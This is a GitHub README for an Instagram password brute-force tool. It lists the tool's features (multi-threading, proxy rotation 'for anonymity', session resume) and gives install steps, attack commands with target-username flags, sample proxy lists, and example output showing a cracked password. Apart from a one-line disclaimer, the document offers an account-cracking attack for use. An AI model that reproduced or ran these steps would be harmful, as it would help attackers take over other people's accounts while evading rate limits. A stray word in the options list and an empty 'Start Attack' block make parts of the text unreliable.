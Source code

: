 
# Instagram Bruter

  

## Description

Instagram Bruter is a password brute-force tool designed to test the security of Instagram accounts. It automates login attempts using a list of passwords and proxies.

## Getting Started  
**Star** this repository to show your support, hit **Fork**, and dive right in!


## Author


Original Authors:
- **Hackertrackersj**
- **OBITORASU**
- **TermuxHackz**

Modified/Updated Version By:
- [**Pralin Khaira**](https://github.com/pralinkhaira)

## Features

- Multi-threaded brute-force attack

- Proxy support for anonymity

- Session resume functionality

- Password list-based attack

- Proxy pruning and statistics tracking

  

## Requirements

- Python 3.9+

- Proxy list

  

## Install Dependencies

  

### Install Pipenv

  

```
pip install pipenv
```

  

### Create Environment

  

Make sure you have Python 3.9 installed

  

```
pipenv --python 3.9
```

  

### Install Requirements

  

```
pipenv install
```

  

## Usage

```sh
python  instagram.py  -u <username> -p <password_list.txt> -px <proxy_list.txt> -m <mode>
```

### Options:

-  `-u, --username` : Target Instagram username or email
jackiehyd3
-  `-p, --passlist` : Path to password list file

-  `-px, --proxylist` : Path to proxy list file

-  `-m, --mode` : Attack mode (0 to 3, where 0 = 32 bots, 3 = 4 bots)

-  `--prune` : Prune the proxy database (value between 0 and 1)

-  `--stats` : Show proxy statistics

-  `-nc, --no-color` : Disable color output

  

## Example

```sh
python  instagram.py  -u  target_user  -p  passwords.txt  -px  proxies.txt  -m  2
```

  

## Proxies

  

The system needs a list of proxies to work. Once uploaded, proxies are saved into a database.

  

### Upload Proxies

  

Upload a list of proxies into the program. The proxy file must have a format of `ip:port`

  

Example `proxies_list.txt`:

```
3.238.111.248:80
206.189.59.192:8118
165.22.81.30:34100
176.248.120.70:3128
191.242.178.209:3128
180.92.194.235:80
```

  

To upload a list of proxies, use:

```
python instagram.py -px <path to proxy list>
```

  

### Proxy Statistics

  

Gives an insight into the health of the proxies in the database.

```
python instagram.py --stats
```

  

### Prune Proxies

  

Removes proxies with a score below a given threshold. It is recommended to prune the database of proxies with a score below `Q1`.

```
python instagram.py --prune 0.05
```

  

## Running the Tool

  

### Start Attack

```

```

### Example Output (During Attack)

```
[-] Wordlist: passlist.txt
[-] Username: Sami09.1
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Example Output (Successful Attempt)

```

[-] Wordlist: passlist.txt
[-] Username: Sami09.1
[-] Password: Sami123
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: Sami09.1
[+] Password: Sami123

```

  

## Disclaimer

This tool is for educational purposes only. Unauthorized use against accounts you do not own is illegal.
